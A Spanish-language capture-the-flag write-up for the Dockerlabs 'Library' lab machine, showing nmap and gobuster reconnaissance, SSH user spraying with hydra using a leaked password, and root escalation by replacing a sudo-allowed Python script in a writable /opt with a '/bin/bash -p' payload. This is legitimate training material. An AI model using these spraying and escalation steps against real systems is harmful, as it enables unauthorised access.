

# 🖥️ Writeup - Library 

**Plataforma:** Dockerlabs  
**Sistema Operativo:** Linux  

> **Tags:** `Linux` `Web` `Gobuster` `Information Leakage` `Hydra` `User Spraying` `Sudoers` `Python` `Writable Directory`

# INSTALACIÓN

Descargamos el `.zip` de la máquina desde DockerLabs a nuestro entorno y seguimos los siguientes pasos.

```bash 
unzip library.zip
```
La máquina ya está descomprimida y solo falta montarla.

```bash
sudo bash auto_deploy.sh library.tar
``` 
Info:

```

                            ##        .         
                      ## ## ##       ==         
                   ## ## ## ##      ===         
               /""""""""""""""""\___/ ===       
          ~~~ {~~ ~~~~ ~~~ ~~~~ ~~ ~ /  ===- ~~~
               \______ o          __/           
                 \    \        __/            
                  \____\______/               
                                          
  ___  ____ ____ _  _ ____ ____ _    ____ ___  ____ 
  |  \ |  | |    |_/  |___ |__/ |    |__| |__] [__  
  |__/ |__| |___ | \_ |___ |  \ |___ |  | |__] ___] 
                                         
                                     

Estamos desplegando la máquina vulnerable, espere un momento.

Máquina desplegada, su dirección IP es --> 172.17.0.2

Presiona Ctrl+C cuando termines con la máquina para eliminarla
``` 

Una vez desplegada, cuando terminemos de hackearla, con un `Ctrl + C` se eliminará automáticamente para que no queden archivos residuales.

# ESCANEO DE PUERTOS

A continuación, realizamos un escaneo general para comprobar qué puertos están abiertos y luego uno más exhaustivo para obtener información relevante sobre los servicios.

```bash
nmap -n -Pn -sS -sV -p- --open --min-rate 5000 172.17.0.2
``` 

```bash
nmap -n -Pn -sCV -p22,80 --min-rate 5000 172.17.0.2
```

Info:
```
Starting Nmap 7.95 ( https://nmap.org ) at 2025-10-31 17:15 CET
Nmap scan report for 172.17.0.2
Host is up (0.000039s latency).

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.6p1 Ubuntu 3ubuntu13 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f9:f6:fc:f7:f8:4d:d4:74:51:4c:88:23:54:a0:b3:af (ECDSA)
|_  256 fd:5b:01:b6:d2:18:ae:a3:6f:26:b2:3c:00:e5:12:c1 (ED25519)
80/tcp open  http    Apache httpd 2.4.58 ((Ubuntu))
|_http-server-header: Apache/2.4.58 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
MAC Address: 02:42:AC:11:00:02 (Unknown)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 6.75 seconds
```

Se detectan los puertos `22` (SSH) y `80` (HTTP) abiertos.

Accedemos al puerto `80` y nos encontramos con la página de `Apache2` por defecto.

# GOBUSTER

Realizamos `fuzzing` de directorios para intentar localizar directorios o archivos ocultos.

```bash
gobuster dir -u http://172.17.0.2 -w /usr/share/seclists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-medium.txt -x html,zip,php,txt,bak,sh -b 403,404 -t 60
```

Info:
```
===============================================================
Gobuster v3.8
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.17.0.2
[+] Method:                  GET
[+] Threads:                 60
[+] Wordlist:                /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   403,404
[+] User Agent:              gobuster/3.8
[+] Extensions:              bak,sh,html,zip,php,txt
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/index.php            (Status: 200) [Size: 26]
/index.html           (Status: 200) [Size: 10671]
/javascript           (Status: 301) [Size: 313] [--> http://172.17.0.2/javascript/]
Progress: 1387269 / 1543899 (89.85%)
```

Encontramos un directorio `/javascript` y un archivo `index.php`.
Accedemos al archivo `index.php` y encontramos una cadena de texto:



Esta cadena parece ser una contraseña, pero en este punto desconocemos los usuarios existentes en el sistema.

Mi primer pensamiento fue intentar explotar una vulnerabilidad `LFI` (Local File Inclusion) en `index.php` para leer el archivo `/etc/passwd` y así obtener una lista de usuarios. 
Sin embargo, no encontré ningún parámetro vulnerable.

# FUERZA BRUTA

Vamos a realizar un ataque de `user spraying` contra el servicio ` SSH`, utilizando como contraseña cadena de texto que hemos encontrado antes: `JIFGHDS87GYDFIGD`.

```bash
hydra -L /usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt -p JIFGHDS87GYDFIGD -t 64 ssh://172.17.0.2
```

Info:
```
Hydra v9.6 (c) 2023 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2025-10-31 17:23:40
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[WARNING] Restorefile (you have 10 seconds to abort... (use option -I to skip waiting)) from a previous session found, to prevent overwriting, ./hydra.restore
[DATA] max 64 tasks per 1 server, overall 64 tasks, 8295455 login tries (l:8295455/p:1), ~129617 tries per task
[DATA] attacking ssh://172.17.0.2:22/
[22][ssh] host: 172.17.0.2   login: carlos   password: JIFGHDS87GYDFIGD
```

Descubrimos que la contraseña es válida para el usuario `carlos`.

Utilizamos estas credenciales para autenticarnos exitosamente en el sistema a través de `SSH`.

```bash
ssh carlos@172.17.0.2
```

# ESCALADA DE PRIVILEGIOS

Una vez dentro, comprobamos permisos `sudo` y `SUID`.

```bash
sudo -l
```

Info:
```
Matching Defaults entries for carlos on 34c374d12f02:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin,
    use_pty

User carlos may run the following commands on 34c374d12f02:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/script.py
```

Vemos que podemos ejecutar el archivo `script.py`, situado en el directorio `/opt`, con privilegios de `root`.
Al verificar los permisos del archivo, observamos que no tenemos permisos de escritura sobre él. 

Sin embargo, en el directorio `/opt` tenemos permisos para eliminar el `script.py` original y crear un archivo nuevo con el mismo nombre, que contenga nuestro `payload` de escalada de privilegios.

```bash
rm script.py
nano script.py
```

Código:
```
import os
os.system('/bin/bash -p')
```

Tras crear y guardar nuestro `script` malicioso, finalmente lo ejecutamos con privilegios de `root`.

```bash
sudo /usr/bin/python3 /opt/script.py
```

Info:
```
root@34c374d12f02:/opt# whoami
root
root@34c374d12f02:/opt#
```

Ya somos root!